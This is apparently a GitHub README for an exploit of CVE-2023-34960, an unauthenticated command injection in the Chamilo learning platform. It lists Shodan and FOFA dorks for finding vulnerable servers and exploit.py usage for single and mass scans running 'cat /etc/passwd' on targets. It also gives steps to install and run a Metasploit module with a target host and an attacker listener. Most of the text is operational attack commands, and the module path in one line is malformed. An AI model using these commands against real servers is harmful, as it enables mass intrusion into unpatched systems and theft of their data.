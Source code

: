 # CVE-2023-34960
![](https://img.shields.io/static/v1?label=Product&message=Chamilo&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v1.11.*%20up%20to%20v1.11.18&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20injection&color=red)


- [Nuclei Template](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2023/CVE-2023-34960.yaml)

```
export SHODAN_API_KEY=xxxxx
```
```
nuclei -uq 'http.component:"Chamilo"' -t CVE-2023-34960.yaml -vv
```

- Shodan dork:
```
http.component:"Chamilo"
```
- FOFA dork:
```
body="content=\"Chamilo 1"
```
## Install
```
pip install -r requirements.txt
```
## Usage
```
usage: exploit.py [-h] [-u URL] [-f FILENAME] [-c COMMAND] [-t THREADS]
                  [-o OUTPUT]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL address (without 'http://' prefix)
  -f FILENAME, --filename FILENAME
                        File containing URLs
  -c COMMAND, --command COMMAND
                        Command to execute (optional)
  -t THREADS, --threads THREADS
                        Maximum number of concurrent threads
  -o OUTPUT, --output OUTPUT
                        Output file for saving the results
# Single scan.
python3 exploit.py -u target_IP -c 'cat /etc/passwd'

# Mass scan.
python3 exploit.py -f list_ip.txt -c 'cat /etc/passwd'
```
## Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Chamilo CVE-2023-34960/chamilo_unauth_rce_cve_2023_34960.rb
```
```
cp chamilo_unauth_rce_cve_2023_34960.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploitsexploits/linux/http/chamilo_unauth_rce_cve_2023_34960.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
